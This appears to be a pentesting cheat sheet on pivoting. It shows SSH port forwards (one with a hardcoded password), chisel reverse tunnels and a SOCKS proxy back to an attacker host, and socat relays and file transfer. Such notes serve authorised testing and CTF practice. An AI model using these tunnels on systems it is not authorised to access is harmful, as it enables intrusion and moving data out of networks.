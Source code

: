 Port forwarding from $TARGET_IP to localhost with SSH
---
```shell
ssh -N -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

```bash
sshpass -p 'L1k3B1gBut7s@W0rk' ssh $USER@$TARGET_IP -L $PORT:127.0.0.1:$PORT
```

or run in background with -f option

```shell
ssh -N -f -L $PORT:localhost:$PORT $USER@$TARGET_IP
```

Forward port from remote machine to local machine:

```shell
service ssh start
```

then on remote machine

```shell
ssh -N -R $REMOTE_PORT:localhost:$PORT $USER@$ATTACKER_IP
```

Using CHISEL:
---
single port on attacker machine

```shell
chisel server --port 8000 --reverse
```

from jump box

```shell
./chisel client $ATTACKER_IP:8000 R:$PORT:$DEST_IP:$PORT
```

 Opening socks5 server on LOCAL machine on port 1080

```shell
chisel server --port 8001 --socks5 --reverse
```

on jump box

```shell
./chisel client --max-retry-count 1 $ATTACKER_IP:8001 R:socks
```

Then edit proxychains config:
  
```config
socks5 127.0.0.1 1080
```

Execute commands with

```
proxychains -q
```

in front of them

Forward local port to target IP with SOCAT
---
```
socat TCP-LISTEN:139,reuseaddr,fork TCP:$TARGET_IP:$PORT &
```

Using SOCAT to send file:
---
On receiving machine

```shell
socat -u TCP-LISTEN:9876,reuseaddr OPEN:$FILE_OUT,creat
```

and on sending machine

```shell
socat -u FILE:$FILE_OUT TCP:$RECEIVER_IP:9876
```